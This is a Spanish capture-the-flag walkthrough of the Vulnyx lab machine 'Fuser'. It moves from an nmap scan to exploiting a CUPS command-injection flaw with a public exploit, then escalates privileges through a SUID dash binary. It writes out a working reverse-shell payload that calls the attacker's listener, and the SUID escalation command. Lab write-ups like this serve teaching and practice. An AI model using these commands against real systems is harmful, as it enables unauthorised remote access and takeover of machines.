




Máquina "Fuser" de [Vulnyx](https://vulnyx.com)

Autor: d4t4s3c

Dificultad: Low



# RECONOCIMIENTO

En mi caso la ip de la máquina es "192.168.33.49".

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 192.168.33.49 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Nov  1 20:48:59 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 192.168.33.49
Nmap scan report for 192.168.33.49
Host is up, received arp-response (0.00051s latency).
Scanned at 2024-11-01 20:48:59 -03 for 11s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDP4OvUJ0xKoulS7xOYz1485bm/ZBVN/86xLQvh7Gqa1DmEWz/eHP2C3MJQnqTFPOEh18FULOzj9fiehyzhd6CM7+qBZ/4B9b5RkOx7AL+S3aRIey4qQj7/k72PqMBkyfD2krjNOg7ZZe8z9o0A4VyeDljG6ukVFeN6PEtWWtdmmnVJztgzX0wPWPaO9GM5hITyvpIB/Y/IqueYR+ft2n5ROLLUfjFLezB+zSa6xkDPGiY9qMZBMXA/6oaaD3TV1x6jfTtZi+Aca0scDfOTJUVlSwZYaHrJQSNlKFJhniucqq/zxOnMIHjs/v1YXYCh0jlYDsb5J/NqTzEPMKkbtwn97T5/FQvsWDGJFTtxvCCrInmnUHB+cG8dSRYQZ763QoPxF/feDSNbrKjTv8D1K2EPhf1rBGQGIObgatVHNFclVWfuq7sn4x9olNnbsEogIQ5mbEq0mBlgOW5vowFxUkI60Ond4Dl7H4fkCeiPfngWFrT+6cQoNgA3HRKf6NtQeYs=
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNDNbes4gKOy7nXoXxW1kPwOX/vuxNkae5WSrIFu+ZD8OUIX5OK8e6o7IZDJAxn/ACAJL9Mm+tA44syyemA6C40=
|   256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINItrDSHbBfPB1CJosqklAQXN4/Mt++ocUqbiG861ZSG
80/tcp  open  http    syn-ack ttl 64 Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
631/tcp open  ipp     syn-ack ttl 64 CUPS 2.3
|_http-server-header: CUPS/2.3 IPP/2.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Inicio - CUPS 2.3.3op2
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 08:00:27:C7:9F:9C (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 20:49:10 2024 -- 1 IP address (1 host up) scanned in 11.49 seconds
```

Como vemos, los puertos abiertos son los siguientes:

`22: OpenSSH 8.4p1`

`80: Apache httpd 2.4.56`

`631: CUPS 2.3`

Este último nos interesa, ya que esa versión es vulnerable a un `Command Injection` [CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)

aunque ese CVE no es para la misma versión de nuestro caso, nos sirve ya que de todas maneras podremos inyectar comandos.

# INTRUSIÓN

Para realizar la intrusión deberemos usar el siguiente exploit: [evilcups.py](https://github.com/IppSec/evil-cups/blob/main/evilcups.py)

nos lo descargamos, y para poder enviarnos una shell, deberemos ejecutar lo siguiente:

```css
python3 exploit.py 192.168.33.216 192.168.33.49 "bash -c 'bash -i >& /dev/tcp/192.168.33.216/443 0>&1'" 
```

Claramente debes reemplazar cada ip por la tuya.

Si nos ponemos a la escucha con `sudo nc -lvnp 443` no recibiremos nada, pero si vamos a la web del puerto 631 veremos una impresora llamada "HACKED" y nuestra ip:



Ahora para que el comando se ejecute, deberemos entrar en ella y tocar donde dice "imprimir una página de prueba" o "print test page". Una vez hecho recibiremos una shell por el puerto 443:



# ESCALADA DE PRIVILEGIOS

### Lp

Ahora que recibimos una shell, haremos el tratamiento de la tty. [¿Como Hacerlo?](https://github.com/Maciferna/DockerLabs/blob/main/tratamientoTTY.md)

Continuamos buscando binarios con el bit SUID de la siguiente manera:

```css
find / -perm -4000 2>/dev/null
```

si nos fijamos, el binario "dash" tiene activado el bit SUID, por lo que luego de buscar veo que se puede escalar ejecutando lo siguiente:

```css
/usr/bin/dash -p
```

Una vez escalemos ya podremos ver las flags.

### Root



Gracias por leer...